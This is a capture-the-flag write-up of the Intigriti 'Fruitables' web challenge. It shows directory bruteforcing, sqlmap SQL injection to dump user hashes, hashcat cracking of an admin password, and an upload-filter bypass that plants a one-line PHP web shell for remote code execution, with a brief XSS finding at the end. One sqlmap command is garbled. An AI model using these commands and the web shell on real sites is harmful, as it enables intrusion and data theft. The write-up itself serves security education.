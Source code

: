 # Fruitables [77 solves]
created by `Invincible`

## Description

> A website about fruit? Probably no vulnerabilities there.. Move along everybody!
> https://ctfd-status.ctf.intigriti.io/fruitables

## Flag

`INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}`

## Solution

When we visit the given website we land on a page which seems to be an online store for selling fruits

![initial webpage](./img/image-1.png)

When clicking around in the website we find 4 endpoints:

```
https://fruitables-3.ctf.intigriti.io/shop.php
https://fruitables-3.ctf.intigriti.io/shop-detail.php
https://fruitables-3.ctf.intigriti.io/checkout.php
https://fruitables-3.ctf.intigriti.io/contact.php
```

Three directories do not appear to contain any functionality except for the checkout page which submits a `POST` request

![POST request](./img/image-2.png)

Upon investigating this request further it does not appear to be vulnerable.

Moving on I decided to perform some directory bruteforcing. To my initial attack I added .php extension because the website is using PHP (this conclusion was made because endpoints that we found contains .php extension)

Command:
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-large-directories.txt -u https://fruitables-3.ctf.intigriti.io/FUZZ -e .php
```

Output:
![output of ffuf](./img/image-3.png)

In the output we see some interesting directories and endpoints. One of the endpoints is `account.php`

![account.php](./img/image-4.png)

After trying to register the account we get an error `Sorry, registration is currently closed!` and we are being thrown into a new endpoint 
https://fruitables-3.ctf.intigriti.io/auth/fruitables_login.php

![login page](./img/image-5.png)

After uncussesful login while trying to use some common credintials I tried some common attacks such as SSTI (Server Side Template Injection) or SQLI (SQL Injection). Surprizingly, upon submitting a backtick ' character an SQL error page shows up indicating that the website might be vulnerable to SQL injection
![SQL error](./img/image-6.png)

We confirm the SQL injection using `sqlmap` tool

Command:
```bash
sqlmap -u "https://fruitables-3.ctf.intigriti.io:443/auth/fruitables_login.php" --data="username=test&password=sick" --technique=E --batch
```

Output:
![SQLI](./img/image-7.png)

Upon confirming that the website is indeed vulnerable to error based SQLI I listed all databses and tables from the SQL databse. One table stood out which was `users` table in `users` database so I extracted it and got some usernames and hashes

Command:
```bash
sqlmap -u "https://fruitables-3.ctf.intigriti.io:443/auth/fruitables_login.php" --data="username=test&password=sick" --batch -T [60/373]
dump
```

Output:
![users and hashes](./img/image-8.png)

After getting the hashes I picked to crack the administrator which seemed like it was the most valuable hash. Its type was `bcrypt` 

Command:
```bash
hashcat -a 0 hashes/hashes.txt rockyou.txt -m 3200 --show
```

Luckily, almost immediatly the hash cracks and the password is `futurama`

Now we have a valid username and password: `tjfry_admin:futurama`

After logging in to the website we see that there is a file upload functionality and after trying to upload a `.txt` file a message shows up stating that we can only upload JPEG and PNG files
![upload](./img/image-9.png) 


After that I tried attacking the application by uploading a php file and masking it as much as possible so hopefully application accepts the file:

* Uploaded a normal PNG and intercepted the request with BurpSuite
* Added `.php` extension to the filename
* Content type is set to `image/png`
* Deleted most part of the image's content and only kept PNG's magic bytes which hexadecimal values are `89 50 4E 47 0D 0A 1A 0A`
* Added a PHP code which would allow me to execute commands on the website:

```php
<?php
system($_GET['cmd']);
?>
```

* Finally I sent the request and our PHP script has uploaded successfuly!
![uploaded PHP](./img/image-10.png)

After uploading the PHP we can test it by going to the directory that we discovered earlier `uploads` and pasting in the file name with parameter `intigriti` and our command

Command:
```
https://fruitables-3.ctf.intigriti.io/uploads/56dd93fffc446be30e6735535081686f.png.php?intigriti=id
```

Output:
![RCE](./img/image-11.png)

Great! Now we have remote code execution and by looking around we find that the flag is stored in `/flag_poxm7AQwN77Lj2PU.txt`
![flag](./img/image-12.png)

> INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}

### BONUS

When trying to register an account we are being redirected to the page

https://fruitables-3.ctf.intigriti.io/auth/fruitables_login.php?error=Sorry%2C+registration+is+currently+closed%21

Upon realizing that the error code is being displayed on the website, I tried changing the error to something else and it worked!
![intigriti](./img/image-13.png)

After trying some attacks I found that the website is vulnerable to XSS (Cross Site Scripting) attack which could have been exploited if there were any other functionality
![XSS](./img/image-14.png)

> Written by NitrogenXP